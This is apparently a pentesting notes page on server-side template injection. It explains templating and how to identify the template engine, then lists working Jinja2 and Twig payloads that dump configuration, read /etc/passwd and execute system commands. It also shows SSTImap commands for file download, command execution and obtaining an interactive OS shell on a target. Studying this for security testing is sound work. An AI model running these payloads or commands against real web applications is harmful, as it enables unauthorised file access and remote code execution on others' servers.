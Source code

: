 ```yaml
---
layout: default
title: SSTI
permalink: /Web/ssti/
---
```


# Server-Side Template Injection (SSTI)
A template engine is software that combines pre-defined templates with dynamically generated data and is often used by web applications to generate dynamic responses.
This generation is often based on user input, enabling the web application to respond to user input dynamically.
When an attacker can inject template code that is later rendered by the server, a Server-Side Template Injection vulnerability can occur.
Popular examples of template engines are Jinja and Twig.
## Templating
### Jinja2
Example:
```
Hello {{ name }}!
```
It contains a single variable called `name`, which is replaced with a dynamic value during rendering.
For-loop over all elements in the `names` variable (if is like `names=["name", "name2", "name3"]`):
```
{% for name in names %}
Hello {{ name }}!
{% endfor %}
```

## Confirming SSTI
The most effective way is to inject special characters with semantic meaning in template engines and observe the web application's behavior.
Example:
```
${{<%[%'"}}%\.
```

## Identifying the Template Engine
We can utilize slight variations in the behavior of different template engines. We can use this decision tree by following the green sign in case of successful code execution and the red cross in case of the payload wasn't executed:
{% raw %}
```
${7*7}
├── ✅ a{*comment*}b
│   ├── ✅ Smarty
│   └── ❌ ${"z".join("ab")}
│       ├── ✅ Mako
│       └── ❌ Unknown
└── ❌ {{7*7}}
    ├── ✅ {{7*'7'}}
    │       ├── ✅  Jinja2
    │       ├── ✅  Twig
    │       └── ❌ Unknown
    └── ❌ Not vulnerable
```
{% endraw %}
*Note: There are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).
## Exploiting SSTI in Jinja2
### Information Disclosure
Payload to dump the entire web application configuration:
```
{{ config.items() }}
```
Payload to dump all available built-in functions:
```
{{ self.__init__.__globals__.__builtins__ }}
```
### Local File Inclusion (LFI)
```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
### Remote Code Execution (RCE)
We can use functions provided by the os library, such as system or popen. However, if the web application has not already imported this library, we must first import it by calling the built-in function import:
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
## Exploiting SSTI in Twig
### Information Disclosure
Payload to get information about the current template:
```
{{ _self }}
```
### Local File Inclusion (LFI)
The PHP web framework Symfony defines additional Twig filters. One of these filters is file_excerpt and can be used to read local files:
```
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
### Remote Code Execution (RCE)
```
{{ ['id'] | filter('system') }}
```
## Tools of the Trade
Popular tools for identifying and exploiting SSTI vulnerabilities are [tplmap](https://github.com/epinna/tplmap) and [SSTImap](https://github.com/vladko312/SSTImap).
### SSTImap
```
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
python3 sstimap.py
```
To automatically identify any SSTI vulnerabilities as well as the template engine used by the web application, we need to provide SSTImap with the target URL:
```
python3 sstimap.py -u http://$ip/index.php?name=test
```
We can download a remote file to our local machine using the `-D` flag:
```
python3 sstimap.py -u http://$ip/index.php?name=test -D '/etc/passwd' './passwd'
```
We can execute a system command using the -S flag:
```
python3 sstimap.py -u http://$ip/index.php?name=test -S id
```
Alternatively, we can use --os-shell to obtain an interactive shell:
```
python3 sstimap.py -u http://$ip/index.php?name=test --os-shell
```
